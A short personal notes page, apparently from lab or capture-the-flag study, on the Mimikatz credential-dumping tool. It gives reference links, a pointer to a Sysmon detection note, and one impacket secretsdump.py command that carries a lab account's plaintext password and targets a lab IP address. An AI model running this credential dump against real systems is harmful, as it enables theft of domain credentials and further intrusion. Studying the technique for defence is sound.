```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```


[Home · gentilkiwi/mimikatz Wiki · GitHub](https://github.com/gentilkiwi/mimikatz/wiki)
# Guide

1. [Mimikatz – Active Directory Security](https://adsecurity.org/?page_id=1821)
2. [Mimikatz | HackTricks | HackTricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz)

# Walkthrough 

1. See [[System Monitor (Sysmon)#Detection Example 3 Detecting Credential Dumping]]

# Secrets Dump

```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```